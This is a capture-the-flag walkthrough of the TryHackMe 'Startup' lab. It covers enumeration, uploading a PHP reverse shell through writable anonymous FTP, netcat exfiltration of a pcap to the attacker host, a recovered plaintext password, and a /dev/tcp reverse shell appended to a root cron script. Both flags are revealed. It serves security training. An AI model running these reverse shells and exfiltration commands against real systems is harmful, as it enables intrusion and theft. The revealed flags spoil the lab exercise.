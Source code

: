 # Startup

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Room Info

> **Name**
>
> 🔗 [Startup](https://tryhackme.com/room/startup)
>
> ![](.gitbook/assets/startup.png)
>
> **Description**
>
> 📝 ***We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root.*
>
> **Target IP**
>
> 🎯 `10.10.173.77`

## Recon

```bash
su
echo "10.10.173.77 startup.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/startup
cd thm/startup
nmap startup.thm
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http

nmap -sV -sC -Pn -oA startup startup.thm
```

```bash
21/tcp open  ftp  vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.18.65.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh  OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http  Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerate Web server directories

```bash
gobuster dir -u http://startup.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```bash
/files (Status: 301) [Size: 310] [--> http://startup.thm/files/]
```

Navigate to

- `http://startup.thm/files/`

![](.gitbook/assets/image-20230515143244492.png)

Login via FTP with `anonymous`:`anonymous`. The files in the folder are the ones from the `/files` webpage.

```bash
ftp startup.thm

ls
```

![](.gitbook/assets/image-20230515143526046.png)

## Exploitation

Get a Reverse shell by uploading a `PHP` file via FTP and run it through the web page.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php
# Set $ip & $port
$ip = '10.18.65.48';
$port = 1234;

mv php-reverse-shell.php shell.php
```

```bash
# In the FTP anonymous session
cd ftp
put shell.php
```

```bash
nc -nvlp 1234
```

- Navigate to `http://startup.thm/files/ftp/shell.php` to get a reverse shell

![](.gitbook/assets/image-20230515145419274.png)

```bash
/usr/bin/script -qc /bin/bash /dev/null

ls
cat recipe.txt

ls -lah /home
	lennie

ls /incidents
	suspicious.pcapng

cp /incidents/suspicious.pcapng /var/www/html/files/smb
# Permissions denied
```

![](.gitbook/assets/image-20230515151802211.png)

Transfer `	suspicious.pcapng` using `netcat`

```bash
# Kali
nc -nvlp 5555 > susp.pcap

# Startup box
nc -nv 10.18.65.48 5555 < /incidents/suspicious.pcapng
```

Analyze the `susp.pcap` file in Wireshark or use the `strings` command

```bash
strings susp.pcap
```

![](.gitbook/assets/image-20230515152948262.png)

Try the string as password for `lennie` user.

```bash
su lennie
# password: c4ntg3t3n0ughsp1c3
# It works
```

> 📌 `lennie`:`c4ntg3t3n0ughsp1c3`

```bash
find / -type f -iname user.txt 2>/dev/null
cat /home/lennie/user.txt
```



<details>
<summary>Reveal Flag - user.txt: 🚩</summary>



`THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

![](.gitbook/assets/image-20230515153155071.png)

</details>

Close the reverse shell and connect via SSH

```bash
ssh lennie@startup.thm
```

Perform some Enumeration with `lennie` user

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

![](.gitbook/assets/image-20230515154046856.png)

## Privilege Escalation

Since `planner.sh` will be run as root (with a cron job), and it contains the `/etc/print.sh` command script, modify `/etc/print.sh` and input a payload (a reverse shell for example) into it to run it as `root`.

```bash
echo "/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1" >> /etc/print.sh
```

Wait for the reverse shell on the attacker machine. The root will run the `planner.sh` script once a minute.

```bash
# Kali
nc -nvlp 3333
```

![](.gitbook/assets/image-20230515155056052.png)

```bash
find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
```





<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`THM{f963aaa6a430f210222158ae15c3d76d}`

![](.gitbook/assets/image-20230515155220667.png)

</details>



------

